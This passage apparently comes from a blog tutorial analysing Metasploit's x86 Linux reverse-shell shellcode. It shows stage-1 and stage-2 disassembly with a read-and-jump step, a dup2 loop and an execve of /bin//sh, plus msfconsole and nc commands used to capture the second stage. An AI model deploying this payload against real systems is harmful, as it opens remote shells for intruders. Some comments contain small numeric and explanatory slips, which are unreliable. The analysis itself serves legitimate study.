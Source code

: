 ```
0000002A  B60C              mov dh,0xc</code></pre><figcaption>Since <code>connect()</code> stores <code>0x0</code> into <code>EAX</code> on success, after <code>CDQ</code>, the register <code>EDX</code> is zeroed</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">                            ; EAX = 0x3, which is the read syscall
0000002C  B003              mov al,0x3
0000002E  CD80              int 0x80

00000030  FFE1              jmp ecx</code></pre><figcaption>Call <code>read()</code> in order to receive data from the server socket, and jump to <code>ECX</code> (pointer to the top of the stack), where data is stored</figcaption></figure><p>This last block of code allows the shellcode to receive data from the Server Socket. Data is placed on the stack.</p><p>It can be converted to the following C code:</p><pre><code class="language-cpp">// fd is the file descriptor of the socket created with socket()
// ECX -&gt; pointer to the top of stack, where data will be stored

read(fd, ECX, 3072);</code></pre><p>Up until now, I only analyzed the 1st stage of the shellcode. To analyze the 2nd stage, I had to connect to a listening <code>Server</code>:</p><pre><code class="language-bash">sudo msfconsole
# msf6 &gt; use exploit/multi/handler
# msf6 exploit(multi/handler) &gt; set PAYLOAD  linux/x86/shell/reverse_nonx_tcp
# msf6 exploit(multi/handler) &gt; set LHOST 127.0.0.1
# msf6 exploit(multi/handler) &gt; set LPORT 4444
# msf6 exploit(multi/handler) &gt; run -j</code></pre><p>In another terminal window:</p><pre><code class="language-bash">nc 127.0.0.1 4444 &gt; stage2.bin

ndisasm -b 32 -p intel stage2.bin</code></pre><p>Follows the assembly of the second stage:</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">                            ; save File Descriptor of the Server Socket into EDI
00000000  89FB              mov ebx, edi

                            ; push 0x00000002 and move it into ECX
00000002  6A02              push byte +0x2
00000004  59                pop ecx</code></pre><figcaption>The instruction <code>push byte</code> is useful when you want to push a 32-bit integer value like <code>0x00000002</code> but you have to avoid <code>NULL</code> bytes. Moreover, it uses only <code>2</code> bytes</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">                            ; push 0x0000002f (63) into EAX
00000005  6A3F              push byte +0x3f
00000007  58                pop eax

                            ; call syscall 63: dup2()
00000008  CD80              int 0x80</code></pre><figcaption>Use <code>dup2()</code> to redirect <code>stderr</code> to the server socket</figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">0000000A  49                dec ecx

                            ; jump back to 'push byte 0x3f', continue when ECX == -1
0000000B  79F8              jns 0x5</code></pre><figcaption>The instruction <code>JNS</code> is useful when you want your loop to perform another iteration: when <code>ECX=0</code></figcaption></figure><figure class="kg-card kg-code-card"><pre><code class="language-nasm">                            ; set EAX to 0xb
0000000D  6A0B              push byte +0xb
0000000F  58                pop eax

                            ; clear EDX and use a string terminator (NULL byte)
00000010  99                cdq
00000011  52                push edx

                            ; string '/bin//sh'
00000012  682F2F7368        push dword 0x68732f2f
00000017  682F62696E        push dword 0x6e69622f

                            ; copy the pointer to "/bin//sh" into EBX
0000001C  89E3              mov ebx,esp
```